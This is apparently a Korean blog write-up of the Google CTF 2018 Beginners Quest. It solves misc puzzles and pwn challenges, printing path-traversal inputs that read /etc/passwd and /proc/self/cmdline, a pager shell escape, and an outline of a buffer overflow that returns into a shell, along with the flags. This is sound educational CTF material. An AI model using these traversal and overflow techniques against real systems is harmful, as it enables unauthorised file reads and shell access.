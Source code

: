 ```yaml
---
layout: post
title: "[Google CTF 2018] Beginners Quest Write-up"
image: /img/hello_world.jpeg
tags: [CTF, write-up, pwnable, misc]
---
```


<style>
.effect {
      display: inline-block;
      box-shadow: 0px 0px 20px -5px rgba(0, 0, 0, 0.8);
}
</style>

## 요약
`misc` `pwnable`

---
### LETTER (misc)
<img src="/img/google_letter.JPG" class="effect">

PDF 파일이다. text와 배경색이 검정색으로 되어있어 글씨가 보이지 않지만 드래그 해서 복사하면 값을 알 수 있다.

CTF{ICanReadDis}
<br><br><br>

### OCR IS COOL! (misc)
<img src="/img/google_ocr1.png" class="effect">

<img src="/img/google_ocr2.JPG" class="effect">

이미지 파일이 주어지는데 메일의 내용 중 VMY{...} 가 플래그 형식과 비슷하여 Caesar 복호화를 했더니 플래그가 나왔다.

VMY{vtxltkvbiaxkbltlnulmbmnmbhgvbiaxk} &rarr; CTF{caesarcipherisasubstitutioncipher}
<br><br><br>

### SECURITY BY OBSCURITY (misc)
첨부파일을 받아보면 zip 으로 압축되어 있다. unzip 으로 압축을 여러번 풀면 또 다른 방식으로 압축되어 있다. zip, unzip, 7z, bzip2, gunzip 순서로 압축을 해제하면 마지막으로 패스워드가 걸린 zip 파일이 된다.

advanced ZIP password Recovery 등의 프로그램을 이용하면 패스워드를 알아낼 수 있다. 알아낸 패스워드는 "asdf" 이다.

CTF{CompressionIsNotEncryption}
<br><br><br>

### FLOPPY (misc)
<img src="/img/google_floppy.JPG" class="effect">

<img src="/img/google_floppy_.JPG" class="effect">

ico 파일을 hex editor 로 열어보면 압축 파일이 숨겨져 있는 것을 확인할 수 있다.

CTF{qeY80sU6Ktko8BJW}
<br><br><br>

### MOAR (pwn)

> nc moar.ctfcompetition.com 1337

접속하면 socat 의 man 페이지가 뜬다.

<img src="/img/google_moar.JPG" class="effect">

`![cmd]` 를 이용하여 쉘 명령어를 실행시킬 수 있다.

CTF{SOmething-CATastr0phic}
<br><br><br>

### ADMIN UI (pwn-re)

> nc mngmnt-iface.ctfcompetition.com 1337

```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```
1번 메뉴를 선택하면 패스워드를 입력해야 한다.

```
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../etc/passwd
(생략)
user:x:1337:1337::/home/user:
```
2번 메뉴를 선택하면 patchnotes 를 읽을 수 있는데 예를 들어서 "Version0.3" 을 입력하면 "Version0.3" 파일을 읽어서 출력해준다.
이를 이용해서 `"../../../etc/passwd"` 를 입력하면 사용자 정보를 확인할 수 있다.


```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../home/user/flag
CTF{I_luv_buggy_sOFtware}
```
user 라는 사용자명을 확인했으면 user의 홈 디렉토리에서 플래그를 읽는다.

CTF{I_luv_buggy_sOFtware}
<br><br><br>

### ADMIN UI 2 (pwn-re)

2번 메뉴 선택 후, `"../../../proc/self/cmdline"` 을 입력하면 "./main" 을 확인할 수 있다. 이게 실행 파일 이름이다.

다시 2번 메뉴 선택 후, "../main" 을 입력하면 실행 파일을 추출할 수 있다.

<img src="/img/google_adminui2.JPG" class="effect">
<img src="/img/google_adminui2_.JPG" class="effect">

분석해보면 1번 메뉴 선택시 입력해야 하는 첫 번째 패스워드는 ADMIN UI 에서 읽었던 flag 값이고, 두 번째 패스워드는 길이가 35인 값 아무거나 통과된다.
하지만 플래그를 알아야되므로 좀 더 살펴보면, FLAG 라는 전역 변수에 35개의 값이 있고, 0xC7 이랑 xor 하는 루틴이 보인다.

> FLAG = [0x84, 0x93, 0x81, 0xbc, 0x93, 0xb0, 0xa8, 0x98, 0x97, 0xa6, 0xb4, 0x94, 0xb0, 0xa8, 0xb5, 0x83, 0xbd, 0x98, 0x85, 0xa2, 0xb3, 0xb3, 0xa2, 0xb5, 0x98, 0xb3, 0xaf, 0xf3, 0xa9, 0x98, 0xf6, 0x98, 0xac, 0xf8, 0xba]

xor 연산을 해보면
CTF{Two_PasSworDz_Better_th4n_1_k?}
<br><br><br>

### ADMIN UI 3 (pwn-re)

두 개의 패스워드를 통과하면 몇 가지 커맨드를 실행시켜주는 루틴으로 들어간다.

<img src="/img/google_adminui3_shell.JPG" class="effect">
<img src="/img/google_adminui3_system.JPG" class="effect">

quit, version, shell, echo, debug 명령어를 사용할 수 있는데, 이 중에서 shell 명령어를 입력했을 때 shell_enabled 가 1이면 debug_shell()을 호출하고, debug_shell() 에서는 system("/bin/sh") 를 호출한다.

<img src="/img/google_adminui3.JPG" class="effect">
<img src="/img/google_adminui3_.JPG" class="effect">

명령어를 입력받을 때 길이 검사를 하지 않아 `BOF` 취약점이 발생하기 때문에 debug_shell() 함수의 주소를 스프레이해서 return address 를 덮으면 쉘을 획득할 수 있다.

```bash
Unknown command ''BAA'
> $ quit
Bye!
$ ls
an0th3r_fl44444g_yo
flag
main
patchnotes
$ cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

CTF{c0d3ExEc?W411_pL4y3d}
